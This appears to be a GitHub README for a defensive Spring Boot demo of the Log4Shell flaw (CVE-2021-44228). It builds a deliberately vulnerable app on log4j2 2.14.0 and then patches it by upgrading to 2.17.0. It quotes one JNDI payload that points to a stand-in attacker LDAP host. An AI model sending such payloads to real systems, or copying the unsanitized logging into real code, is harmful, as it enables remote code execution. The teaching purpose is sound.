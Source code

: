 # log4j2
Apache Log4j2 2.0-beta9 through 2.12.1 and 2.13.0 through 2.15.0 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.  

Spring Boot is using logback by default.  It is also supporting the use of log4j2 and hance it's exposed to this vulnerability if not patched.

**Hacking is illegal!** The purpose of this demo is for developers/blue team member to understanding how older version of log4j2 is being exploitted and how to patch it.  Instead of using ${jndi:ldap://attacherserver.com/payload} as payload, we display the OS version instead in this demo.  

## Create a New Maven Demo Project for Log4Shell(CVE-2021-44228)
### 1. Create an empty project using Spring CLI
    spring init --name=vul-log4j2 packaging=jar --package-name=au.com.wiseagent.springboot.log4j2 -a=vul-log4j2 --dependencies=web log4j2
    
### 2. Update pom.xml to use vulnerable version of log4j2
- Under <properties> section, inster a line to use vulnerable log4j2 verion, eg. 2.14.0  

      <properties>
      <java.version>1.8</java.version>
      <!-- to use the vulnerable version: CVE-2021-44228 -->
      <log4j2.version>2.14.0</log4j2.version>
      </properties>
  
- To disable default logback, and using log4j2  

      <!-- Exclude Spring Boot's Default Logging -->
      <dependency>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter</artifactId>
        <!-- disable default logging -->
        <exclusions>
          <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
          </exclusion>
        </exclusions>
      </dependency>

      <!-- Add Log4j2 Dependency -->
      <dependency>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-log4j2</artifactId>
      </dependency>
### 3. Import the Maven project to your Eclipse IDE

### 4. Use Log4J2 to log environment variable ${java:os}
Here is the cutdown version of the REST API implemention pass payload as RequestParam.  
For demo purpose, instead of sanitized the payload, it's hard coded to a non-instructive operation, to log the environment value for OS 

    package au.com.wiseagent.springboot.log4j2;

    import org.springframework.boot.SpringApplication;
    import org.springframework.boot.autoconfigure.SpringBootApplication;
    import org.springframework.web.bind.annotation.GetMapping;
    import org.springframework.web.bind.annotation.PathVariable;
    import org.springframework.web.bind.annotation.RequestParam;
    import org.springframework.web.bind.annotation.ResponseBody;
    import org.springframework.web.bind.annotation.RestController;
    import org.apache.logging.log4j.LogManager;
    import org.apache.logging.log4j.Logger;

    @SpringBootApplication
    @RestController
    public class VulLog4j2Application {
        private static Logger logger = LogManager.getLogger(VulLog4j2Application.class);
        public static void main(String[] args) {
          SpringApplication.run(VulLog4j2Application.class, args);
        }

      @GetMapping("/PayLoad")
      @ResponseBody
        public String PayLoad(@RequestParam  String payload) {
        payload="${java:os}"; // override the payload
        logger.info(payload);
        return "payload received" + payload;
      }
    }

 ### 5. Start your REST API service from IDE or from command line
 From your browse, entry to the following to trigger the REST API call, and noticed that the ${java:OS} variable has been replace by the OS value in the INFO log.  
  
    http://localhost:8080/PayLoad?payload=${java:os}
  
  ![image](https://user-images.githubusercontent.com/853925/147844381-a20bc303-47eb-4d8f-9c1e-582c9bd6d017.png)

**It can be observed that the variable ${java:os} has been evaluated, and replaced by the OS value in the log.**
## Patch your application for Log4Shell
### Update pom.xml file to use updated version of log4j2, which patched the CVE-2021-44228

      <properties>
      <java.version>1.8</java.version>
      <!-- to use updated version patched the CVE-2021-44228 -->
      <log4j2.version>2.17.0</log4j2.version>
      </properties>

### Stop and Start your REST API service from IDE or from command line again
From your browse, entry to the following to trigger the REST API call, and noticed that the ${java:OS} variable has been replace by the OS value in the INFO log.  
  
    http://localhost:8080/PayLoad?payload=${java:os}
![image](https://user-images.githubusercontent.com/853925/147844478-65d0da64-f98a-4f11-b45a-d9a420f1ed04.png)


**It can be observed that the variable ${java:os} has not been evaluated, and it has elimiated the opportunity that an unsanitized user input being used to exploit the log4j2 vulnerability.**
